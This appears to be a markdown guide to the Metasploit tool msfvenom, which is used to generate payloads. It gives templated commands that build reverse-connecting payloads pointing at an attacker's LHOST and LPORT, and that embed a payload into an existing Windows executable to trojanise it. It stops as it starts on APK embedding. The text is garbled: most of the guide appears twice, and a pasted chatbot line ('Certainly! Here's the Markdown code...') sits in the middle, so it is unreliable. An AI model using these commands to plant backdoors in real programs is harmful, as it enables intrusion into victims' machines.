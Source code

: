 # Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
      Replace [payload] with the desired payload.
      Specify the format with -f (e.g., exe, apk, etc.).
      Set your IP with LHOST and the desired port with LPORT.
      Save the output with -o [output_filename].

# Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

 Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Certainly! Here's the Markdown code for your .md file:

markdown

# Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]

    Replace [payload] with the desired payload.
    Specify the format with -f (e.g., exe, apk, etc.).
    Set your IP with LHOST and the desired port with LPORT.
    Save the output with -o [output_filename].
```
# Embedding Payloads to exe, APK

Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

    Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.

# Embedding into Android Application (APK)

Embedding into an APK involves using the Metasploit resource script.

    Generate the payload.
    Create a resource script (e.g., embed.rc) with the following:

